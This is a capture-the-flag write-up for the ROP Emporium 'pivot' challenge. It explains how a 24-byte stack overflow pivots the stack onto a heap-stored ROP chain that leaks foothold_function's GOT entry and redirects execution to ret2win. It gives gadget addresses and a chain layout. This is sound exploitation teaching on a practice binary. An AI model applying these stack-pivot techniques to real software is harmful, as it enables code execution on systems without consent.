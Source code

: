 # ROPemporium Pivot Write-up

The intro to this challenge reads

_"Stack space is at a premium in this challenge and you'll have to pivot the stack onto a second ROP chain elsewhere in memory to ensure your success."_

Reversing the binary was not the goal of this challenge, thus it was made pretty straightforward what it does. The binary first asks for input of length `0x100` bytes, which is stored on the heap. We are given address on the heap where this is stored. After that, the binary asks for additional `0x40` bytes of input, which are stored on the stack. This causes 0x18 bytes overflow and allows us to overwrite three quadwords on the stack and thus take control.

## Exploit Overview

Put together with the challenge description, it's clear we have to use the `0x18 bytes = 24 = 3*8 = 3 quadwords = 3 gadgets` overflow on stack by the second input to make the `rsp` point to malloc'd memory that contains our first input(our pivoted stack). Thus, our payload will consist of two parts:

1. up-to-three gadget chain that pivots the stack to the second part of our payload. The `malloc`'d address is given to us.
2. rop chain that runs `ret2win()` in `libpivot.so`.

_this can get a little bit confusing, since the binary first stores the second part of our payload to heap and only after that asks for the first part that is responsible for pivoting the stack._

## Exploit Construction

With initial exploit plan in our minds, let's have a look at the gadgets we have at our disposal, with `ropper`:
(_I only kept the important ones in this output_)
```
root@kali:~/ROPemporium/pivot# ropper -f pivot

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%

Gadgets
=======

0x0000000000400b09: add rax, rbp; ret; 
...
0x000000000040098e: call rax; 
...
0x0000000000400b05: mov rax, qword ptr [rax]; ret; 
...
0x0000000000400b00: pop rax; ret; 
...
0x0000000000400900: pop rbp; ret; 
0x0000000000400b73: pop rdi; ret; 
...
0x0000000000400b02: xchg rax, rsp; ret; 
...

```

To pivot the stack, we need to know the address, where our second payload will be stored. This is, however, given to us by the binary for free. We will `recv()` and parse the standard output to retrieve the address of the `malloc`'d memory as `pivot_stack`.

Then, we send the second part of the payload, responsible for calling `ret2win` and after that the first part of the payload, which pivots to the second (main) part.

In order to call the `ret2win`, we need to know its address. We can do this, by reading the `got.plt` entry for `foothold_function`, to find where it is mapped in the process memory and adding the offset of `ret2win` - offset of `foothold_function` in `libpivot.so`. However, the `foothold_function` is not called during standard program execution and thus `got.plt` entry will only contain address back in `plt` section. To populate the `got.plt` entry of `foothold function`, we will `ret` to it at the beginning of the second part of our payload. After that, we can read the `got.plt` entry, add constant to it and make it point to `ret2win`. Please see the hijacked stacks for more explanations.

After we send the second part of the payload, the binary asks for another input, which actually overflows the stack with `0x18` bytes. This is where we send our pivoting payload.

This makes the hijacked stacks look as follows:

```
original stack overflown:
--------------------------------
|           pop rax             |
--------------------------------
|         pivot_stack           |---    - now rax contains the address of pivoted stack
--------------------------------    |
|         xchg rax, rsp         |   |
--------------------------------    |
                                    |
memory malloc'd for us:             |
-------------------------------- <--
|    plt.foothold_function      |
--------------------------------
|            pop rax            |
--------------------------------
|       got.foothold_function   | - now rax contains address of foothold_function's `got.plt` entry
--------------------------------
|   mov rax, qword ptr [rax]    | - now rax contains content of foothold_function's `got.plt` entry - address of foothold_function in proccess memory
--------------------------------
|           pop rbp             |
--------------------------------
|  ret2win - foothold_function  | - now rbp contains offset difference between ret2win and foothold_function
--------------------------------
|        add rax, rbp           | - now rax contains address of ret2win in process memory
--------------------------------
|           call rax            |
--------------------------------
```

For the original exploit refer to `exploit.py` file.

**Note:** To debug my rop chain, I used `radare2` with `rarun2` profile to make the binary listen on port `8080`. I then connected to this port with interactive python shell. This allowed me to construct and send my payloads on the fly.
